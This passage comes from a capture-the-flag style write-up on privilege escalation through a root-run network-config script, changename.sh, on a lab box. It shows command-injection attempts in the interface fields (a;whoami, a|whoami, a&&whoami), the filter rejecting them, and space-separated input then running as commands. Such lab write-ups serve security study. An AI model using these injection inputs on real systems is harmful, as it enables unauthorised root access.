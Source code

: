 Briefly analyzing the script,
- Regular expression checks if there's any non-numerical or alphabetical character included.
- Takes 4 inputs and saves them to each variable.
- Run `echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly` command.

### Command Injection

For test, I put random inputs to play it around;

```bash
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
a;whoami;
a;whoami;
wrong input, try again
interface NAME:
a;whoami
a;whoami
wrong input, try again
interface NAME:
a|whoami
a|whoami
wrong input, try again
interface NAME:
a&&whoami
a&&whoami
wrong input, try again
interface NAME:
a&whoami
a&whoami
wrong input, try again
```

As we analyzed, it's filtering all non-string characters (`;|&`).
Instead, I put characters with spaces.

```bash
interface NAME:
a b c
a b c
interface PROXY_METHOD:
a b c
a b c
interface BROWSER_ONLY:
a b c
a b c
interface BOOTPROTO:
a b c
a b c
/etc/sysconfig/network-scripts/ifcfg-guly: line 4: b: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 5: b: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 6: b: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 7: b: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 4: b: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 5: b: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 6: b: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 7: b: command not found
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
```
